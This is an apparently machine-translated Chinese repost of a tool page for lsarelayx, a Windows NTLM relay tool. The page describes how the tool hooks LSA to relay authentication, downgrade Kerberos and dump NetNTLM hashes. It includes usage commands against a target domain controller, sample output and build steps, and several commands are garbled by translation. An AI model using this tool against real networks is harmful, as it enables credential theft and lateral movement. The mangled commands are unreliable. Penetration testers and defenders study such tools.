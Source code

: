 # Lsarelayx : NTLM 让 Windows 中继变得简单

> 原文：<https://kalilinuxtutorials.com/lsarelayx/>

[![](img//5230dc88f371346b6655cd9155d1fbfa.png)](https://blogger.googleusercontent.com/img/a/AVvXsEiMRJUkj_C2HKPQLB2br49MGS40TQc0IWUFNzjesse0QKAoIFw6tnTw8iXOBFGM7ArHBhYKAzTjE6dyQJVwoDqgAqnfVIcvbOoLd-D3OKndH-e5frcOrL1MTbb0oBV_zrDp4YjfNYLUyDfWRH0M_jQsJEXrUbgL08t6awrmWK5E6H2P6PzKUxBGXDTE=s728)

Lsarelayx 是一个系统范围的 NTLM 中继工具，用于将基于 NTLM 的身份验证中继到运行它的主机。lsarelayx 将中继**任何包含 SMB 的**传入认证请求。由于 lsarelayx 与现有的应用程序身份验证流挂钩，所以在中继完成后，该工具还会尝试为原始的身份验证请求提供服务。这将防止目标应用程序/协议显示错误，并使最终用户在 lsarelayx 主机上进行身份验证时正常工作。

**特色**

*   在系统范围内中继 NTLM 连接，包括 SMB、HTTP/HTTPS、LDAP/LDAPS 或任何其他实现 Windows 身份验证 API 的第三方应用程序。
*   尽可能将传入的 Kerberos 身份验证请求降级为 NTLM。这将导致传统上尝试 Kerberos 身份验证的客户端退回到 NTLM。
*   对中继用户执行 LDAP 查询，以获取组成员信息，并为原始请求创建正确的身份验证令牌。
*   转储 NetNTLM 消息以进行脱机破解。
*   支持被动模式，不中继，只转储捕获的 NetNTLM 哈希(在此模式下没有 Kerberos 降级)。

**工作原理**

lsarelayx 由三部分组成。一个在 liblsarelay.dll 实现的假 LSA 身份验证提供程序，一个作为控制界面的用户模式控制台应用程序和一个名为 RAW 的新 ntlmrelayx 服务器模块。

**liblsarelayx.dll**

liblsarelayx.dll 是由 lsarelayx 加载的 LSA 身份验证提供者。它的主要目的是挂钩 NTLM 和协商包，以便于通过本地命名管道将身份验证请求重定向到 lsarelayx，从而中继和转储 NetNTLM 哈希。liblsarelayx 设计得尽可能简单，所有繁重的工作都由 lsarelayx 来完成

**lsarelayx.exe**

liblsarelayx.dll 是主控制台应用程序，用于加载自定义 LSA 身份验证提供程序(liblsarelayx.dll)，侦听传入的 NTLM，协商来自身份验证提供程序的令牌，并中继到 ntlmrelayx 的原始服务器模块。该工具还执行 LDAP 查询，这些查询用于捕获中继用户的组信息，并传递回 LSA 身份验证提供程序。

**原始 ntlmrelayx 模块**

impacket 的 ntlmrelayx 已经实现了大量的工作来创建中继攻击，并将在未来继续改进和添加进一步的攻击。为了利用这一点直接在 lsarelayx 中重新实现攻击，创建了一个新的 ntlmrelayx 服务器模块，称为 RAW。目前 GitHub 上有一个 PR open 实现了 RAW 服务器模块。原始服务器模块与协议无关，设计用于直接接受来自 lsarelayx 等第三方软件的原始 NTLM 消息。

在 PR 合并到主线 impacket repo 之前，您可以使用这个版本

**用法**

**主动模式**

首先启动 ntmlrelayx 原始服务器模块，监听从 lsarelayx 传递的原始 NTLM 消息。

**python 示例\ ntlmrelayx . py-SMB 2 support–no-wcf-server–no-SMB-server–no-http-server "-t " SMB://DC . victim . LAN
Impacket v 0 . 9 . 24 . de v1+20211015.125134 . c0ec 6102–Copyright 2021 secure auth Corporation
[*]协议客户端 DCSYNC 已加载..[* ]协议客户端 HTTPS 加载..
[ *]协议客户端 HTTP 已加载..[*]协议客户端 IMAP 已加载..
[ *]协议客户端 IMAPS 已加载..[* ]协议客户端 LDAP 已加载..
[ *]协议客户端 LDAPS 已加载..[*]协议客户端 MSSQL 已加载..
[ *]协议客户端 RPC 已加载..[*]协议客户端 SMB 已加载..
[ *]协议客户端 SMTP 已加载..[* ]以中继模式运行到单个主机
[ *]在端口 6666 上设置原始服务器[* ]服务器开始，等待连接**

lsarelayx 本身需要本地管理员权限才能运行。要在主动中继模式下运行，需要指定 ntlmrelayx 运行原始服务器模块的主机地址。默认端口是 6666。这可以用`**--port**`参数覆盖，但是一定要用`**--raw-port**`参数覆盖 ntlmrelayx 端的端口。

**lsarelayx.exe–主机 192.168.1.1
[+]使用 192.168.1.1:6666 中继 NTLM 连接
[=]试图加载 LSA 插件 C:\ users \ admin**trator \ Desktop \ liblsarelayx . dll

**被动模式**

您还可以通过不带任何参数地运行，以被动模式运行 lsarelayx

**lsarelayx.exe
[=]没有提供主机，切换到被动模式
[=]试图加载 LSA 插件 C:\ users \ Administrator \ Desktop \ liblsarelayx . dll**

**注意事项**

一旦 liblsarelayx DLL 被加载到 lsass 中，由于 LSA 插件工作方式的限制，现在你不能卸载它。可以关闭客户端，这将使 DLL 进入休眠状态，直到客户端再次启动，但 DLL 将一直使用，直到重新启动。

由于 LSA 插件实际上不是一个真正的插件，有计划在插件内部实现一个反射加载器，然后可以随意停止和启动，但这是另一天的练习。

在 Windows 10 和 Server 2016 上进行开发。在 Windows Server 2012 R2 上执行了一个快速测试，运行正常，但挂钩的偏移量计算在 2012 年可能会失败(这可以使用`**lookuppackage-hint=**`手动提供，如果出错，Windows 将重新启动)。没有在 Windows 10 以下的桌面端进行任何测试，也没有在 Server 2019 上进行任何测试。

**大楼**

**码头工人**

如果你安装了 docker，这是最快的选择。它利用预先安装了所有构建依赖项的`**ccob/windows_cross**`映像。

**Windows 上的 Docker(Powershell)**

**docker run–RM-it-v $ env:pwd \:/root/lsarelayx ccob/windows _ cross:latest/bin/bash-c " CD/root/lsarelayx；mkdir 构建；cd 构建；cmake-DC make _ INSTALL _ PREFIX =/root/lsarelayx/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =**../toolchain/Linux-mingw64.cmake..；–建造。–目标安装/剥离”

Linux 上的坞站

**docker run–RM-it-v $(pwd):/root/lsarelayx ccob/windows _ cross:latest/bin/bash-c " CD/root/lsarelayx；mkdir 构建；cd 构建；cmake-DC make _ INSTALL _ PREFIX =/root/lsarelayx/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =../toolchain/Linux-mingw64.cmake..；cmake–构建。–目标安装/剥离"**

**Linux**

在 Linux 上，我们利用 CMake 工具链和 MinGW 编译器。这些需要提前安装。对于托管组件，请确保 dotnet 命令行工具也是从安装的。网络核心

**mkdir BUILD
CD BUILD
cmake-DC make _ INSTALL _ PREFIX = $ PWD/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =../toolchain/Linux-mingw64.cmake..
cmake–构建。–目标安装/拆卸**

**Windows (Powershell)**

在尝试构建之前，Windows 将需要完整的 CMake、MinGW 和 Visual Studio 安装，如果没有安装开发环境，这是最痛苦的构建方式

**mkdir BUILD
CD BUILD
cmake-DC make _ INSTALL _ PREFIX = $ PWD/dist-DC make _ BUILD _ TYPE = MinSizeRel-G " MinGW Makefiles "..
cmake–构建。–目标安装/拆卸**

[**Download**](https://github.com/CCob/lsarelayx)
